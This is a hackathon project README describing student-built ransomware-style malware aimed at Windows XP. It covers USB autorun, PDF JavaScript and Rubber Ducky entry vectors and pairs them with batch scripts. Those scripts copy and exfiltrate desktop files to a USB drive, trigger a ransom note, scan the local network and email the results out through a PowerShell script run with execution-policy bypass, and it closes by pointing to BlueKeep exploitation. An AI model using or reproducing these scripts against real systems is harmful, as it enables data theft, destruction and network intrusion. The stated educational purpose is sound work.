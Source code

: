 # Man1f3zzt0

## Made by 

[Ellioth Denzel Romero Martinez](https://github.com/Denzeel)

[Luis Daniel Filorio Luna](https://github.com/luisda25)

[Miguel Soria](https://github.com/MESC2004)

[Omar Emiliano Sanchez Villegas](https://github.com/rintintingoesbrrr)

[Sofia Moreno Lopez](https://github.com/sofia-lpz)

This piece of malware was created for a hackathon that aimed to teach students interested in cybersecurity how malware compromised big industry systems, especially legacy systems. 
The challenge proposed a case study where a pharmaceutical company let 3 threat actors posed as students enter their headquarters, and through social engineering managed to enter a usb into an employees computer. They printed a pdf file that was downloaded into the computer and after they left the first computer started showing a ransom note and lost access to its files. 
After some minutes the same started happening in other branches near the main HQ and after an hour it managed to infect their whole system.

The challenge was proposing a recovery plan and figuring out how they propagated through the system and compromised it, in an effort to give the best and most plausible solution my team and I got into the shoes of the threat actors and designed a malware to attack a windows xp system, there was no information about what system they were using but they challenge specified it was at least 20 years old and to this day windows xp is widely used around the world.

![windows xp](./images/windows_xp.png)

In the recon phase of the development we found 3 potential entry vectors, a misconfiguration of .inf files entering a system, a rubber ducky posing as a mass storage device and adobe acrobat executing JavaScript code embedded in pdf files.

These 3 entry vectors had one goal, to execute a malicious batch file that would copy our main malware into the system and execute it. The malicious file would then wait for 15 minutes before executing so the threat actors could exit the building.

## FIrst entry vector .inf files in the root of a usb - semi successful 

When a .inf file is in the root directory of a usb, it can run files instantly when placed inside a windows xp machine.
This vector proved somehow successful in early versions of windows XP, especially before windows xp SP2. The reason this wasn't our entry vector is that most configurations of windows xp for large systems have a registry that prompts a user input when a .inf is detected in the root directory of a usb system.

![windows xp regitry gui](./images/registry_edit.png)
## Second entry vector Javascript code inside PDF - semi successful 

Most of the versions of Adobe Acrobat Reader that were built for Windows XP by default run JavaScript code embedded inside of any pdf file. 
Our first approach to this entry vector was successful, we managed to display an alert on the machine symply by opening the file on Adobe Acrobat and Windows Explorer.
![image showing pdf altert saying hola denzle](./images/JS_POC.jpeg)
This seemed like the best way to enter the system, but then when designing and testing a different payload that used the JS ActiveXObject constructor to call cmd commands, we got an error detailing that ActiveXObject was not declared in the system. 
![image showing error ActiveObjectX not defined](./images/active_objectx_not.jpeg)
With short time we tried using a different version of windows xp but the error kept happening, it wasn't solved even after letting adobe acrobat have every unsafe permission. 
With little time left we needed to change approaches.

## Third entry vector rubber ducky posing as mass storage device - ULTRA SUCCESSFUL

To this day this is one of the most efficient entry vectors, the only downside is you need physical access to the system you are trying to pawn and the case study told us the threat actors did, even though this was the most efficient approach we made it our last resource as we knew we could develop the script pretty easily. 

We used a HAK5 rubber ducky and payload studio pro to develop the simple chain of keystrokes that would run in the background as the pdf file was opened. 

![payload studio](./images/payload_studio.png)
This simple keystroke injection opened the doors to our payload. 


## Payload 

Our payload consisted of 3 batch files.  Each with its unique function. 

Our first batch file was made so we could run code even after unplugging the usb from the target machine. It copies our main caller into the desktop and executes it. 
We used system variables that got the username from the system and used it to define the PATH to the desktop, with this we didn't need to worry about knowing and hard coding the username.

```

xcopy "%~dp0\maincaller.bat" "%userprofile%\Desktop\" /Y
start "" "%userprofile%\Desktop\maincaller.bat"

```



The second batch file is a little more complex, firstly copies everything from the desktop into a file inside our usb.

```

@echo off
setlocal

:: Set variables
set USB_DRIVE=E:  :: Change this to the letter of your USB drive
set DESKTOP_DIR=%USERPROFILE%\Desktop
set DEST_DIR=%USB_DRIVE%\DesktopBackup
set FINAL_SCRIPT=%USB_DRIVE%\final_script.bat
set WAIT_TIME=60  :: Time to wait in seconds

:: Create destination directory on USB drive
if not exist %DEST_DIR% mkdir %DEST_DIR%

:: Copy Desktop contents to USB drive
xcopy "%DESKTOP_DIR%\*" "%DEST_DIR%\" /E /H /C /I

```

After this it will start a timeout to wait for the threat actors to leave the building
It will delete everything and start a cmd file that shows the ransom note.

```

ping -n 240 127.0.0.1
start cmd /c "main.bat"

:monitor

REM Delay for 2 seconds
ping -n 30 127.0.0.1 >nul

start cmd /c "man1f3zzt0.bat"

goto monitor

```

## Lateral movement 

The next part is only a prove of concept as we were running out of time. 
We will use the simple mail transfer protocol to send all of the local ips that are currently in use.

Firstly we ping all of the possible local ips using a CIDR of /24. 
If they respond we save it to a local variable and continue until finished.
After this we curl to http://ipinfo.io/ip, this will give us the public ip address of this network.

```

@echo off
setlocal

:: Set variables
set NETWORK_BASE=192.168.1.  :: Change this to your network base
set OUTPUT_FILE=%TEMP%\network_scan_results.txt
set PUBLIC_IP_FILE=%TEMP%\public_ip.txt
set EMAIL_TO=someone@example.com  :: Change this to the recipient's email address
set EMAIL_SUBJECT="Network Scan Results"
set SMTP_SERVER=smtp.example.com  :: Change this to your SMTP server
set SMTP_PORT=587                 :: Change this to your SMTP server port
set SMTP_USERNAME=your_email@example.com  :: Change this to your email
set SMTP_PASSWORD=your_password   :: Change this to your email password

:: Clear previous output files
if exist %OUTPUT_FILE% del %OUTPUT_FILE%
if exist %PUBLIC_IP_FILE% del %PUBLIC_IP_FILE%

:: Get public IP address
echo Retrieving public IP address...
curl -s http://ipinfo.io/ip > %PUBLIC_IP_FILE%

:: Scan the network
echo Scanning the network...
for /L %%i in (1,1,254) do (
    ping -n 1 -w 1000 %NETWORK_BASE%%%i | find "Reply from" >> %OUTPUT_FILE%
)

:: Append public IP to output file
echo Public IP Address: >> %OUTPUT_FILE%
type %PUBLIC_IP_FILE% >> %OUTPUT_FILE%

```


We package all of this and send it to a properly configured gmail address. 

```
:: Prepare PowerShell script to send email
set PS_SCRIPT=%TEMP%\send_email.ps1
echo $EmailFrom = "%SMTP_USERNAME%" > %PS_SCRIPT%
echo $EmailTo = "%EMAIL_TO%" >> %PS_SCRIPT%
echo $Subject = "%EMAIL_SUBJECT%" >> %PS_SCRIPT%
echo $Body = "Find the attached network scan results." >> %PS_SCRIPT%
echo $SMTPServer = "%SMTP_SERVER%" >> %PS_SCRIPT%
echo $SMTPPort = %SMTP_PORT% >> %PS_SCRIPT%
echo $SMTPUser = "%SMTP_USERNAME%" >> %PS_SCRIPT%
echo $SMTPPass = "%SMTP_PASSWORD%" >> %PS_SCRIPT%
echo $Attachment = "%OUTPUT_FILE%" >> %PS_SCRIPT%
echo $Message = New-Object System.Net.Mail.MailMessage $EmailFrom, $EmailTo, $Subject, $Body >> %PS_SCRIPT%
echo $SMTP = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort) >> %PS_SCRIPT%
echo $SMTP.EnableSsl = $true >> %PS_SCRIPT%
echo $SMTP.Credentials = New-Object System.Net.NetworkCredential($SMTPUser, $SMTPPass) >> %PS_SCRIPT%
echo $Message.Attachments.Add((New-Object System.Net.Mail.Attachment($Attachment))) >> %PS_SCRIPT%
echo $SMTP.Send($Message) >> %PS_SCRIPT%

:: Execute the PowerShell script
powershell -ExecutionPolicy Bypass -File %PS_SCRIPT%

:: Clean up
del %OUTPUT_FILE%
del %PUBLIC_IP_FILE%
del %PS_SCRIPT%
endlocal

```


With all this info we can use the msfconsole to exploit the [CVE-2019-0708](https://nvd.nist.gov/vuln/detail/cve-2019-0708)

![msf console on parrot vm](./images/bluekeep_msfconsole.png)

This vulnerability allows remote code execution and makes it extremely easy to propagate through the whole system.

All of this was made by my team and i in less than 20 hours, we learned a lot and are happy with the final product. 
